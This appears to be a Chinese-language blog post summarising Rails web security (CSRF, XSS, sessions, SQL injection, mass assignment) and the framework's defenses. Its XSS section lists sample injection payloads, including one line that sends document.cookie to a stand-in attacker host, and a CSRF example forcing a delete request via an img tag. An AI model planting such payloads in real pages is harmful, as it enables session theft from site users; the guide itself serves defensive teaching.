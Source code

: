 ```yaml
---
layout: post
title: Web安全
permalink: web-security
---
```


Rails作为一个成熟的框架，已经默认提供了必要的安全机制，从而使得小白也能初始化出安全的站点。但安全还在人心，
只有在开发中时刻注意，才不会留下漏洞。

一定要对网站的入口慎之又慎，不要理所当然用户会按照你的设计去进行输入！

# Sessions

> HTTP is a stateless protocol. Sessions make it stateful.

Session机制是为了解决web的无状态特性，通过浏览器回传cookies来确认当前的session。


# Cross-Site Request Forgery (CSRF)
CSRF，跨站伪装请求。

CSRF的场景是：访问一个黑站，结果在里面有一个链接被浏览器自动加载访问，而这个链接可能执行是删除、关注等操作。

起因：在浏览器请求一个URL时，会顺便得到这个网站的cookies。有了cookies就有了权限，如果请求的那个
URL是在另一个网站中嵌入的，比如：

```html
<img src="http://target.com/1/destroy" />
```

那么就会执行相应的操作。浏览器并不知道这是否是用户的本意，只会按部就班的去解析，遇到img的src就去请求。

应对：对非GET需要验证安全令牌，只有通过才能给执行。而这个安全令牌是Server在render表单等时自己生成的。

在Rails中，只需要在最顶层的ApplicationController中加入：

```ruby
protect_from_forgery with: :exception
```

然后在最顶层的layout文件的head中加入：

```
<%= csrf_meta_tags %>
```

# Cross-Site Scripting (XSS)
跨站执行脚本，等于别人可以在你的网站页面上写自己的代码。十分恐怖！

流程：黑客注入代码，网站保存，受害者打开网站执行代码。

## HTML/JavaScript 注入

```html
<script>alert('Hello');</script>

<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">


<script>document.write(document.cookie);</script>
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>

```

## 防御

使用escapeHTML()或它的alias h()对二次显示的输入内存进行转义，这样：

```
字符& " < >就变成了&amp; &quot; &lt;和&rt;了。
```

能被浏览器还原，但是不能执行。

但是有时确实需要让用户输入带标签的文本啊！

使用[sanitize()](http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html)，
它只运行白名单里的tag和attributes显示：

```ruby
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

# Redirection
防止跳到钓鱼网站。

# File Upload/Download
上传下载时，对文件名进行过滤，保证其安分呆在指定的目录里。

# SQL 注入
尽量使用已经封装好的查询语句，而不是自己写SQL。

# mass assigns

不要把 id 也允许用户修改。

当然默认都不会，可如果自己重新了 model 的 to_param 函数，换了 id 呢，比如 name。

一般会允许用户修改 name， 那它就能改成别人的 name 啊！

但如果进行了 uniqueness 验证，修改相同的 name id 是过不了，除非不相同，那么
在提交了修改 name id form 后，Rails 会需要调用 update 方法，就不找不到 user 了。
但还是会产生 nil error，这也算被动防御了。

而且关系都是用 id 关联的，所以影响不大。

# 参考
* http://guides.rubyonrails.org/security.html
